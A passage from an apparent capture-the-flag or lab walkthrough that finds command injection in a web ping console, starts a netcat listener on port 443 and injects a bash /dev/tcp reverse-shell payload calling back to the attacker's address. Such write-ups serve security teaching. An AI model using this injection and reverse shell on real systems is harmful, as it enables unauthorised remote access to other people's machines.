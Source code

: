 <a href="/images/kiop2-4.PNG"><img src="/images/kiop2-4.PNG"></a>

Nice! The script is vulnerable to command injection! Thus, we can go ahead and attempt a [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Let's start by setting up a Netcat listener on port 443 - since this is already open on the victim’s machine.

```console
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
```

Now, let's go back to the Ping console on the website and run the following command:

`127.0.0.1; bash -i >& /dev/tcp/192.168.1.3/443 0>&1`

This will basically initiate a reverse TCP connection using bash.
